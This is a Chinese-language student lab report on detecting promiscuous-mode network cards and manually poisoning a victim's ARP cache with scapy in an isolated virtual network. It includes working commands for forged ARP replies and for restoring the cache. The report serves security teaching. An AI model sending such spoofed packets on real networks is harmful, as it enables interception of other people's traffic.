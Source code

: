 # 第四章实验

## 实验网络拓扑

![](img/network_topology.PNG)

如图所示网络中的节点基本信息如下：

- 攻击者主机
  - `08:00:27:4f:06:0b` / `eth0`
  - `172.16.111.103`

- 受害者主机
  - `08:00:27:25:d4:c3` / `eth0`
  - `172.16.111.142`

- 网关
  - `08:00:27:e5:9b:4b` / `enp0s9`
  - `172.16.111.1`

## 实验准备

### 安装scapy

在攻击者主机上提前装好scapy

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

### 实验一：检测局域网中的异常终端

1. 在受害者主机上检查网卡的`混杂模式`是否启用

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![](img/promiscuous_victim.PNG)

2. 在攻击者主机上开启scapy

![](img/scapy.PNG)

3. 在`scapy`的交互式终端输入以下代码回车执行

```
pkt = promiscping("172.16.111.142")
```

![](img/attack_pkt_promis.PNG)

4. 回到受害者主机上开启网卡混杂模式

```
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果多出来了PROMISC
ip link show eth0
```

![](img/vic_promisc_on.PNG)

5. 回到攻击者主机上的scapy交互式终端继续执行命令，比较差异

```
pkt = promiscping("172.16.111.142")
```

![](img/attack_pkt_promisc_on.PNG)

6. 在受害者主机上手动关闭该网卡的`混杂模式`

```
sudo ip link set eth0 promisc off
```

#### 实验思考

- 混杂模式：接收所有经过网卡的数据包，不是发给本机的包也会接收，即不验证MAC地址
- 普通模式：网卡只接收发给本机的包
- 由此得出结论：只有在混杂模式下，受害者主机才能接收到这个数据包

### 实验二：手工单步“毒化”目标主机的ARP缓存

1. 获取当前局域网的网关MAC地址

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:4f:06:0b
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:4f:06:0b
#      psrc= 172.16.111.103
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](img/attack_arpbroadcast.PNG)

![](img/gateway_mac.PNG)

2. 伪造网关的ARP响应包发送给受害者主机

```
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.142", hwdst="08:00:27:4f:06:0b")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![](img/attack_send_arp1.PNG)

1. 在受害者主机上查看ARP缓存

```
ip neigh
```

![](img/victim_arp.PNG)

4. 恢复受害者主机的ARP缓存记录

```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e5:9b:4b", pdst="172.16.111.142", hwdst="08:00:27:25:d4:c3")

sendp(restorepkt1, count=100, inter=0.2)
```

![](img/attack_send_arp2.PNG)

5. 在受害者主机上“刷新”网关ARP记录

```
# 在受害者主机上ping网关
ping 172.16.111.1 
# 再次查看ARP缓存，已恢复正常的网关ARP记录
ip neigh
```

![](img/vic_arp_correct.PNG)

## 实验中遇到的问题及解决方法

- 攻击者主机发送伪造`ARP`响应时，在受害者主机查看`ARP`缓存时没有更新

**错误原因：**伪造的包可能没有发送成功到受害者主机上

**解决方法：**在构造的`ARP`包前增加`Ether()`

```
# 在构造的ARP包前增加Ether()
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.142", hwdst="08:00:27:4f:06:0b")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

## 参考

- [网络安全课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)
- [2020-ns-public-AlinaZxy](https://github.com/CUCCS/2020-ns-public-AlinaZxy/blob/chap04/chap04/chap04.md)

